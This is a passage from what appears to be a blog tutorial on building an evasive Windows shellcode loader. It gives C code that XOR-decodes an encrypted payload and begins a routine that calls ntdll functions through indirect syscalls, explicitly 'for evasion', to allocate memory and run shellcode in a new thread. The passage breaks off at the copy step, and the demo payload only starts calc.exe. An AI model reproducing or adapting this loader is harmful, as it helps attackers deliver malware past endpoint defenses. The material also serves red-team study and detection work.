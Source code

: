 Before we wrap things up with our shellcode execution and main functions, we need a small gadget to decode the payload, since the payload in this script was one I XOR'd beforehand. 

```C
void XORDecode(BYTE* data, DWORD dataSize, BYTE key) {
    for (DWORD i = 0; i < dataSize; i++) {
        data[i] ^= key;
    }
}
```


Alright, now we're close. We need to make use of the type definitions for indirect syscalls we created earlier. 

We get the function pointers to allocate and protect virtual memory, as well as to spin a new thread and wait for it to launch. And our epilogue will use the `NtFreeVirtualMemory` function to free our objects when we're done.

So, fundamentally what we're doing is dropping our now decrypted and XOR decoded shellcode into read-write-execute memory via ntdll calls for evasion. Lastly, our process spins up as a new thread in our current process--then we wait for it to finish. 

And the resulting shellcode that's launched starts `calc.exe`, effectively forking off from our current process. After this, we clean up our memory and bail out cleanly.


```C
void ExecuteShellcode(BYTE* shellcode, SIZE_T size) {
    XORDecode(shellcode, size, 'K');
    // Get function pointers
    pNtAllocateVirtualMemory NtAllocateVirtualMemory = (pNtAllocateVirtualMemory)GetNtdllFunction("NtAllocateVirtualMemory");
    pNtProtectVirtualMemory NtProtectVirtualMemory = (pNtProtectVirtualMemory)GetNtdllFunction("NtProtectVirtualMemory");
    pNtCreateThreadEx NtCreateThreadEx = (pNtCreateThreadEx)GetNtdllFunction("NtCreateThreadEx");
    pNtWaitForSingleObject NtWaitForSingleObject = (pNtWaitForSingleObject)GetNtdllFunction("NtWaitForSingleObject");
    pNtFreeVirtualMemory NtFreeVirtualMemory = (pNtFreeVirtualMemory)GetNtdllFunction("NtFreeVirtualMemory");
    pNtClose NtClose = (pNtClose)GetNtdllFunction("NtClose");

    if (!NtAllocateVirtualMemory || !NtProtectVirtualMemory || !NtCreateThreadEx ||
        !NtWaitForSingleObject || !NtFreeVirtualMemory || !NtClose) {
        printf("Failed to get NTDLL function pointers\n");
        return;
    }

    PVOID execMemory = NULL;
    SIZE_T regionSize = size;
    ULONG oldProtect;

    // Allocate memory
    NTSTATUS status = NtAllocateVirtualMemory(
        GetCurrentProcess(),
        &execMemory,
        0,
        &regionSize,
        MEM_COMMIT | MEM_RESERVE,
        PAGE_READWRITE
    );

    if (status != 0) {
        printf("NtAllocateVirtualMemory failed: 0x%x\n", status);
        return;
    }

    // Copy shellcode
```

[^3]: https://ntdoc.m417z.com/ntcreatethreadex
[^5]: https://learn.microsoft.com/en-us/windows/win32/api/winreg/